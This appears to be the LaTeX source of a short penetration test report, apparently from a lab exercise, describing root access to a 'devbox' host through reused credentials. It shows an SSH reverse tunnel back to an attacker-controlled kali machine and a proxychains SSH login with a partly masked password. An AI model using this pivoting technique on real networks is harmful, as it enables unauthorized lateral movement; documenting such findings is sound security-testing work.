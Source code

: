\documentclass[notitlepage]{article}
\begin{document}
  
\title{Penetration Test Ex0e0}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage
\section{Technical Report}


  \subsection{Finding: \emph{Devbox Root Access}}
  
	\subsubsection*{Severity Rating}
    Risk: Medium \\
	\cvss(L,L,H,R,U,H,H,L,6.1)
		
  	\subsubsection*{Vulnerability Description}
    Root access to any of the host servers will allow the attacker to potentially shut down services and gain access to other sensitive information. A way into
    devbox was found using previously found credentials from user l.strauss.

  	\subsubsection*{Confirmation method}
    To gain access to devbox, you must first sign in as admin user pr0b3 on costumes and then ssh back to kali as follows.
 \begin{verbatim}
ssh -R 1081 kali@172.24.0.10
  \end{verbatim}
    Once the connection is established, from kali we can run the following command
\begin{verbatim}
proxychains ssh l.strauss@devbox.artstailor.com
password: Co...El
\end{verbatim}
    The real password is concealed, however this allowed us to gain root access to devbox.
\end{document}
